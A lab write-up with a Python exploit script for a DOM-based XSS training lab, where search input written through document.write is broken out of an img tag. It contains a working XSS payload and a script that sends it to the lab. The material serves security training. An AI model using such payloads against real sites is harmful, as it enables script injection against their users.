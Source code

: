 ```yaml
---
title: 'XSS Lab 3'
description: 'DOM-based cross-site scripting in location.search using document.write'
---
```



## DOM XSS in document.write sink using source location.search

<div style="text-align: justify;">
  This lab demonstrates a DOM-based cross-site scripting (XSS) vulnerability using the `document.write` function. The search query tracking functionality takes user input from `location.search` and writes it to the page without sanitization. This allows an attacker to inject arbitrary JavaScript into the page.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The search box input is reflected via `document.write`.
- Inspecting the page shows the input placed inside an `img src` attribute.
- Breaking out of the `img` tag allows arbitrary script execution.
- A simple XSS payload like `"><svg onload=alert(1)>` executes JavaScript via the `onload` event.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    # Check if Burp Suite is running and listening on the configured proxy.

    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_xss(url, payload):
    # Exploit XSS in search parameter.
        uri = f"/?search={payload}"
        res = requests.get(url + uri, verify=False, proxies=proxies)
        res.raise_for_status()
        session = requests.Session()
        res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] lab not solved.")

def main():
    # Entry point of the script.

    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define XSS payload
    payload = '"><svg onload=alert(1)>'

    # Step 3: Attempt exploitation
    print("[*] Attempting XSS...")
    if exploit_xss(url, payload):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```